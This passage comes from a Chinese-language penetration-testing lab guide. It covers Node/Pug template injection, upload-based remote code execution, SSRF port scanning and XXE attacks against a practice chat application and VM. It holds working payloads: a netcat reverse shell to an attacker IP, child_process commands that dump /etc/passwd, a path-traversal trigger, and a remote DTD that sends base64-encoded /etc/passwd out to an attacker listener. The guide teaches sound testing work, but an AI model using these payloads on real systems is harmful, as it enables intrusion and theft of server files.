* 我们从所有可用的方法中选择“process”，因为我们知道它最终会导致‘require’。你可以通过选择不同的迭代方法来尝试尝试和错误过程：
    * each val,index in	global.process.mainModule 
    p = index
* URL 编码：
%0a%65%61%63%68%20%76%61%6c%2c%69%6e%64%65%78%2

  
 
远程执行代码：

* 发送此最终 payload ，我们应该在 global.process.mainModule 中看到“require”函数。我们现在可以将其设置为使用.exec 导入‘child_process’以获取 RCE：
    *  - var x = global.process.mainModule.require
    *  - x('child_process').exec('cat / etc / passwd >>/opt/web/chatSupportSystems/public/accounts.txt')
    *  URL 编码：
%0a%2d%20%76%61%72%20%78%20%3d%20%67%6c%6f%6
* 在上面的例子中，我们像在 JavaScript 中一样定义变量“x”，但行开头的破折号表示无缓冲输出（隐藏）。我们正在使用全局对象和我们最终需要的模块‘require’，这允许我们使用‘child_process’.exec 来运行系统命令。
* 我们将 /etc/passwd 的内容输出到 Web 公共根目录，这是我们唯一具有写入权限的目录（由应用程序创建者设计），允许用户查看内容。我们也可以使用系统命令执行反向shell或其他任何允许的操作。
* 我们可以看到 http://chat:3000/accounts.txt 将包含的内容
* 来自 Web 服务器的 /etc/passwd。
* 使用此命令在系统上执行完整的 RCE 并返回 shell。

 

现在，我们可以对这一系列操作实现自动化吗？当然可以。有一个类似 SQLmap 的名为 [Tplmap](https://github.com/epinna/tplmap) 的工具，它可以尝试模板注入的所有不同组合：
* cd /opt/tplmap
* ./tplmap.py -u "http://chat:3000/ti?user=*&comment=asdfasdf&link="

 

参考：

* http://blog.portswigger.net/2015/08/server-side-template-injection.html 
* https://hawkinsecurity.com/2017/12/13/rce-via-spring-engine-ssti/
 


### JavaScript 和远程代码执行

远程代码执行是我们在每次入侵和 Web 应用程序渗透测试中必须寻找的。虽然 RCE 几乎可能在任何地方找到，但它们最常见于允许上传的地方，例如：上传 web shell，一个像 [Imagetragick](https://imagetragick.com/) 这样的漏洞利用，使用 Office 文件进行 XXE 攻击，基于遍历的目录上传以替换关键文件等。

传统来说，我们可能会尝试找到我们可以使用的上传区域和 shell。可以在此处找到不同类型的 webshell payload 的绝佳列表：https://github.com/tennc/webshell 。请注意，我绝不会审查任何这些 shell 是否存在后门，所以使用它们需要你自担风险。我遇到过很多有后门的 shell。

**使用上传攻击对聊天应用程序进行攻击**

在我们的实验室中，我们将在 Node 应用程序上执行上传 RCE。在我们的示例中，有一个文件上传功能，允许任何文件上传。不幸的是，使用 Node，我们不能只通过 Web 浏览器调用文件来执行文件，就像在 PHP 中一样。因此，在这种情况下，我们将使用动态路由端点尝试呈现 Pug 文件的内容。错误在于端点将读取文件的内容，假设它是 Pug 文件，因为默认目录存在于 Views 目录中。此端点上还存在路径遍历和本地文件读取漏洞。
 
 

在上传过程中，文件处理程序模块会将文件重命名为随机字符串，没有扩展名。在页面的上传响应内容中，存在上载文件的服务器路径位置。使用这些信息，我们可以使用/drouting 执行模板注入以实现远程代码执行。

既然我们知道底层应用程序是 Node(JavaScript)，我们可以上传什么样的 payload 来才能被 Pug 执行？回到我们之前使用的简单示例：
* 首先，为 require 模块分配一个变量
    * `-var x = global.process.mainModule.require`
* 使用子进程模块使我们能够通过运行任何系统命令来访问操作系统功能：
    * `-x('child_process').exec('nc [Your_IP] 8888 -e /bin/bash')`

RCE 上传攻击：

* 转到 http://chat:3000 并使用任何有效帐户登录
* 使用以下信息上传文本文件。在 Pug 中，“-”字符表示执行 JavaScript。
    * `-var x = global.process.mainModule.require`
    * `-x('child_process')。exec('nc [Your_IP] 8888 -e / bin / bash')`
* 通过上传文件查看 Burp 中的请求和响应。你将注意到在响应 POST 请求中上传的文件的哈希值以及引用的 drouting。

 

 

* 在这个模板代码中，我们将 require 函数分配给 child_process.exec，它允许我们在操作系统级别上运行命令。此代码将使 Web 服务器连接到在端口8888上 `[Your_IP]` 上运行的监听器，并允许我们在 Web 服务器上运行 shell。
* 在攻击者计算机上，启动 shell 的 netcat 侦听器以连接回
    * nc -l -p 8888
* 我们通过在 /drouting 上运行端点来激活代码。在浏览器中，转到上传的哈希文件。 drouting 端点采用指定的 Pug 模板并呈现它。对我们来说幸运的是，我们上传的 Pug 模板包含我们的反向 Shell 。
    * 在浏览器中，使用你从文件上载响应中恢复的文件访问 drouting 端点。我们使用目录遍历“../”来返回上一个目录，以便能够进入包含我们的恶意文件的 uploads 文件夹：
    * `/drouting?filename=../uploads/[你的文件哈希]`
* 回到你的终端监听 8888 端口并在你的 shell 里操作吧！
 
 

### 服务器端请求伪造（SSRF）
服务器端请求伪造（SSRF）是我认为通常被误解的漏洞之一，并且在术语方面，经常与跨站点请求伪造（CSRF）混淆。虽然这个漏洞已经存在了一段时间，但实际上还没有得到足够的讨论和重视，尤其它可以造成的相当严重的后果。让我们来看看它是什么以及为什么会造成严重的后果。

服务器端请求伪造通常被利用以访问本地系统，进入内部网络或允许某种移动。理解 SSRF 的最简单方法是通过一个例子讲述。假设你有一个公共 Web 应用程序，允许用户通过 URL 从 Internet 上下载配置文件图像。你登录该站点，转到你的个人资料，然后单击 Imgur（公共图像托管服务）的更新个人资料按钮。你提供图像的 URL（ 例如：https://i.imgur.com/FdtLoFI.jpg ）并点击提交。接下来发生的事情是服务器会创建一个全新的请求，转到 Imgur 站点，抓取图像（它可能会执行一些图像操作来调整图像-图像跟踪任何人的大小？），将其保存到服务器，并发送成功消息回到用户。如你所见，我们提供了一个 URL，服务器获取该 URL 并抓取图像，并将其上传到其数据库。

我们提供了最初的 Web 应用程序的 URL，以从外部资源中获取我们的个人资料图片。但是，如果我们将图像 URL 指向 http://127.0.0.1:80/favicon.ico 会发生什么？这将告诉服务器不是请求像 Imgur 这样的东西，而且从本地主机服务器（它本身）获取 favicon.ico 图片文件。如果我们能够获得返回包的值是 200 或使我们的个人资料图片成为本地的 favicon 图片，我们就知道我们可能发现了 SSRF。
  
由于它在80端口上工作，那么如果我们尝试连接到 http://127.0.0.1:8080 会发生什么情况（8080 是一个除 localhost 之外无法访问的端口）？这就是它变得有趣的地方。如果我们确实得到完整的 HTTP 请求/响应，并且我们可以在本地对8080端口发出 GET 请求，那么如果我们发现了一个易受攻击的 Jenkins 或 Apache Tomcat 服务会发生什么？即使这个端口没有被公开监听，我们可能也可以入侵这个环境。更好的是，我们或许可以开始请求内网IP：http://192.168.10.2-254 ，而不是127.0.0.1。回想一下那些返回了内网 IP 泄露的网络扫描结果，你对此不屑一顾。但是这正是它们重新发挥作用的地方，我们可以通过它们来使用内部网络服务。

SSRF 漏洞允许你可以执行以下操作：
1. 在回环接口上访问服务
2. 扫描内部网络和与这些服务的潜在交互方式（GET/POST/HEAD）
3. 使用 `FILE://` 读取服务器上的本地文件
4. 使用 AWS Rest 接口（ http://bit.ly/2ELv5zZ ）
5. 横向移动到内部环境中

在我们的下图中，我们发现 Web 应用程序上存在易受攻击的 SSRF，允许我们利用此漏洞：

 

**让我们来看一个现实中的例子：**

* 在你的聊天支持系统（ http://chat:3000/ ）Web 应用程序中，首先确保创建一个帐户并登录。
* 登录后，通过链接转到 Direct Message（DM）页面或直接通过 http://chat:3000/directmessage 。
* 在“链接”文本框中，放入 http://cyberspacekittens.com 等网站，然后单击预览链接。
* 你现在应该看到 http://cyberspacekittens.com 页面的呈现，但 URI 栏仍应指向我们的聊天应用程序。
* 这表明该站点容易受到 SSRF 的攻击。我们也可以尝试聊天：3000/ssrf?user=&comment=&link=http://127.0.0.1:3000 并指向 localhost。请注意，页面呈现了，我们现在正通过有漏洞的服务器上的 localhost 访问该站点。

 

我们知道应用程序本身正在监听3000端口。我们可以从外部对该系统进行 nmap 扫描，并发现当前没有其他 Web 端口正在监听，但是哪些服务仅仅对于 localhost 可用？要搞清楚这个问题，我们需要通过127.0.0.1的所有端口强制执行。我们可以通过使用 Burp Suite 和 Intruder 来实现这一目标。


* 在 Burp Suite 中，转到 Proxy/HTTP History 选项卡，找到我们上一个 SSRF 的请求包。
* 在 Request Body 上单击右键并发送给 Intruder。
* Intruder 选项卡将亮起，转到 Intruder 选项卡，然后单击 clear。单击并突出显示端口“3000”，然后单击 add。你的 GET 请求应如下所示：
    * GET/ssrf?user=&comment=&link=http://127.0.0.1 :§3000§HTTP/ 1.1
* 单击 payload 选项卡，然后选择将 Payload 类型选择为 “Numbers”。我们将从28000端口转到28100。通常，你将测试所有端口，但让我们在实验的时候简化它吧。

* From：28000
* To：28100
* Step：1
* 点击 `Start Attack`





你将看到端口28017的响应长度远大于所有其他请求。如果我们打开浏览器并转到：http://chat:3000/ssrf?user=&comment=&link=http://127.0.0.1:28017 ，我们应该能够利用我们的 SSRF 并获得对 MongoDB Web 界面的访问权限。
 
 

你应该能够访问所有链接，但你必须记住你需要使用 SSRF。要访问 serverStatus( http://chat:3000/serverStatus?text=1 )，你必须使用 SSRF 攻击并转到此处：
* http://chat:3000/ssrf?user=&comment=&link=http://127.0.0.1:28017/serverStatus?text=1

 

服务器端请求伪造可能非常危险。虽然不是新的漏洞，但目前发现的 SSRF 漏洞数量越来越多。由于 SSRF 允许在基础设施内进行移动，这通常会导致某些重要的发现。

其他资源：
 
* 本地的很多编码：
    * http://www.agarri.fr/docs/AppSecEU15-Server_side_browsing_considered_harmful.pdf
* Bug Bounty - 	AirBNB
    * 示例：http://bit.ly/2ELvJxp

### XML 外部实体攻击（XXE）
XML 代表可扩展标记语言，旨在发送/存储易于阅读的数据。 XML eXternal Entities（XXE）是对应用程序中 XML 解析器的攻击。XML 解析常见于允许文件上传，解析 Office 文档，JSON 数据甚至 Flash 类型游戏的应用程序中。当允许 XML 解析时，不正确的验证可以授予攻击者读取文件的权限、导致拒绝服务攻击，甚至远程代码执行。从一个比较高的维度来看，应用程序具有以下需求：1) 解析用户提供的 XML 数据，2) 实体的系统标识符部分必须在文档类型声明(DTD)内，3) XML处理器必须验证/处理 DTD 并解析外部实体。

|普通 XML 文件|恶意 XML 文件|
|:----:|:----:|
|\<?xml version="1.0" encoding="ISO-8859-1"?> |\<?xml version="1.0" encoding="utf-8"?> |
|\<Prod> | \<!DOCTYPE test [ |
|\<Type>Book\</type>|\<!ENTITY xxe SYSTEM|
|\<name>THP\</name>|\"file:///etc/passwd">|
|\<id>100\</id>|\]>|
|\</Prod>|\<xxx>&xxe;\</xxx>|

上面，我们有一个普通的 XML 文件和一个专门用来从系统的 `/etc/passwd` 文件中读取文件的恶意 XML。我们将看看是否可以在真实的 XML 请求中注入恶意 XML 请求。

**XXE 实验：**

由于自定义配置请求，有一个不同的 VMWare 虚拟机用于 XXE 攻击。这可以在这里找到：
*  http://thehackerplaybook.com/get.php?type=XXE-vm
 
下载后，在 VMWare 中打开虚拟机并启动它。在登录屏幕上，你无需登录，但你应该看到系统的 IP 地址。

转到浏览器：
* 通过 Burp Suite 代理所有流量
* 转到 URL：http://[IP of your Virtual Machine] 
* 拦截流量并点击 `Hack the XML`

如果在加载页面后查看页面的 HTML 源代码，你可以看到有一个通过 POST 请求提交的隐藏字段。XML 内容如下所示：

```xml
<?xml version ="1.0"?>
<!DOCTYPE thp [
<!ELEMENT thp ANY>
<!ENTITY book "Universe">
]>
<thp> Hack The &book;</thp>
```

在这个例子中，我们指定它是 XML 1.0版本，DOCTYPE，指定根元素是 thp，`!ELEMENT` 指定任何类型，并且 `!ENTITY` 将 book 变量设置为“Universe”字符串。最后，在我们的 XML 输出中，我们希望从解析 XML 文件中打印出我们的实体。

这通常是你在发送 XML 数据的应用程序中看到的内容。由于我们控制具有 XML 请求的 POST 数据，因此我们可以尝试注入我们自己的恶意实体。默认情况下，大多数 XML 解析库都支持 SYSTEM 关键字，该关键字允许从 URI 读取数据(包括使用 `file://` 协议 )。因此，我们可以创建自己的实体来制作在 `/etc/passwd` 上读取的文件。


|原始 XML 文件|恶意 XML 文件|
|:----:|:----:|
|\<?xml version="1.0" ?> | \<?xml version="1.0"?> |
|\<!DOCTYPE thp [ | \<!DOCTYPE thp [ | 
|\<!ELEMENT thp ANY>|\<!ELEMENT thp ANY>|
|\<!ENTITY book "Universe">|\<!ENTITY book SYSTEM "file:///etc/passwd">|
|]>|]>|
|\<thp>Hack The & book;\</thp>| \<thp>Hack The &book;\</thp> |

**XXE 实验——阅读文件：**

* 拦截 [你的 VM 的 IP]/xxe.php 的流量包并点击 `Hack of XML`
* 将截获的流量包发送到 Repeater
* 将“data”的 POST 参数修改为以下内容：
    * <?xml version ="1.0"?> <!DOCTYPE thp [<!ELEMENT thp ANY> <!ENTITY book SYSTEM "file:/// etc/passwd">]><thp>Hack The %26book%3B </thp>
* 请注意，`%26` 等同于`&`，`%3B`等同于 `;`。我们需要对&符号和分号字符进行百分比编码。
* 发送流量包，我们现在应该能够读取 `/etc/passwd`

 

### 高级 XXE——XXE-OOB 
在之前的攻击中，我们能够在`<thp>`标签中获得返回的响应。那么如果我们看不到响应或遇到字符或文件限制怎么办？我们怎样使用带外数据协议（OOB）来发送我们的数据？我们可以提供远程文档类型定义（DTD）文件来执行 OOB-XXE，而不是在请求 payload 中定义我们的攻击。DTD 是结构良好的 XML 文件，用于定义 XML 文档的结构和法律元素及属性。为了简单起见，我们的 DTD 将包含我们所有的攻击或 exfil payload，这将帮助我们解决许多字符的限制。在我们的实验示例中，我们将使有 XXE 漏洞的服务器请求一个托管在远程服务器上的 DTD。

新的 XXE 攻击将分四个阶段进行：
1. 使用篡改后的 XXE XML 攻击
2. 对于存在漏洞的 XML 解析器，它会从攻击者服务器抓取一个 DTD 文件
3. 该 DTD 文件包含读取 /etc/passwd 文件的代码
4. 该 DTD文件也包含用于隐秘传输 /etc/passwd 内容的代码（可能是经过编码的）

设置我们的攻击者机器和 XXE-OOB payload：
* 我们将指定一个外部 DTD 文件，而不是原始文件读取
```xml
<!ENTITY % dtd SYSTEM "http://[Your_IP]/payload.dtd"> %dtd;
```

* 新的“数据”POST payload 将如下所示（记得更改 [Your_IP]）：
```xml
<?xml version="1.0"?><!DOCTYPE thp [<!ELEMENT thp ANY ><!ENTITY % dtd SYSTEM "http://[Your_IP]/payload.dtd"> %dtd;]><thp><error>%26send%3B</error></thp>
```

* 我们需要通过创建名为 payload.dtd 的文件在攻击者服务器上托管此 payload  
    * gedit /var/www/html/payload.dtd
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://[Your_IP]:8888/collect=%file;'>">
%all;
```

* 你刚刚创建的 DTD 文件指示易受攻击的服务器读取 `/etc/ passwd` 然后尝试使用我们的敏感数据向我们的攻击者机器发出 Web 请求。为了确保我们收到响应，我们需要启动 Web 服务器来托管 DTD 文件并设置 NetCat 监听器
    * nc -l -p 8888

* 你将遇到“检测到实体引用循环”类型的错误,具体的报错内容大概是：“Detected an entity reference loop in
\<b>/var/www/html/xxe.php</b> on line \<b>20"。在进行 XXE 攻击时，通常会遇到解析器错误。很多时候，XXE 解析器仅仅允许某些字符，因此读取带有特殊字符的文件会报错。我们可以做些什么来解决这个问题？在使用 PHP 的情况下，我们可以使用 PHP 输入和输出流（ http://php.net/manual/en/wrappers.php.php ）来读取本地文件，并使用 `php://filter/read=convert.base64-encode` 对它们进行 base64 编码。让我们重启我们的 NetCat 监听器并更改我们的 payload.dtd 文件以使用此功能：

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://[Your_IP]:8888/collect=%file;'>">
%all;
```



一旦我们重放我们新修改的请求，我们现在就可以看到我们的受害者服务器首先获取并运行了 payload.dtd 文件，然后监听8888端口的 NetCat 处理程序发出二次 Web 请求。当然，GET 请求将采用 base64编码并且我们也将必须对请求进行解码。

更多 XXE payload：
* https://gist.github.com/staaldraad/01415b990939494879b4 
* https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/XXE-Fuzzing.txt
 
## 本章总结
虽然这只是你可能遇到的所有不同网络攻击的一小部分，但我希望这些案例能打开你的视野，关于更现代的框架（Node.js）是如何引入旧的和新的攻击。许多常见的应用程序漏洞扫描器往往会错过很多这些更复杂的漏洞，因为它们是基于特定的语言或框架的。我想提出的要点是，为了进行充分的攻击活动，你需要真正理解语言和框架。
